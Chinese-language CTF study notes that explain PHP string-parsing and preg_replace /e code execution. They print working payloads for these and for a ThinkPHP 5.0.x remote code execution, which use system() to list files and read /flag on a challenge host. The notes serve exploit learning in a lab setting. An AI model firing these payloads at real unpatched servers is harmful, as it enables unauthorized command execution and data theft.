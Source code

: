 双引号里面如果包含有变量，php 解释器会进行解析

    双引号中倘若有${}出现，那么{}内的内容将被当做代码块来执行。
    $a = 1;
    $b = 2;
    echo '$a$b';//输出结果为$a$b
    echo "$a$b";//输出结果为12

/e 修正符使 preg_replace() 将 replacement 参数（第二个参数，字符串）当作 PHP 代码执行。`

payload1:

`next.php?\S*=${getflag()}&cmd=system('cat /flag');`
。。。 php 参数中的`.`会被替换成`_`。所以不能 `.*`

payload2:通过构造 post 传参

```
next.php?\S*=${eval($_POST[wtz])}
POST：
wtz=system("cat /flag");
```

hackbar 成功, 但 burpsuit 没成功，通过捕获 hackbar 执行的请求，发现要 bp 要添加

`Content-Type: application/x-www-form-urlencoded`

## Thinkphp

Thinkphp 5.0.0 ~ 5.0.23

构造报错 `http://127.0.0.1/index.php?s=1` 查看到版本 THINK_VERSION5.0.23

```
http://871de986-e788-4308-93b1-56afc5801c28.node3.buuoj.cn/?s=captcha

POST:

_method=__construct&filter[]=system&method=get&get[]=ls /
_method=__construct&filter[]=system&method=get&get[]=cat /flag
```

## php 相关函数

vardump 的结果

```php
Array
(
    [0] => HTTP/1.1 301 Moved Permanently
    // ...
    [41] => EagleId: da5c002216039455321251944e
)

```

echo vardump(array), 把 array 打出来
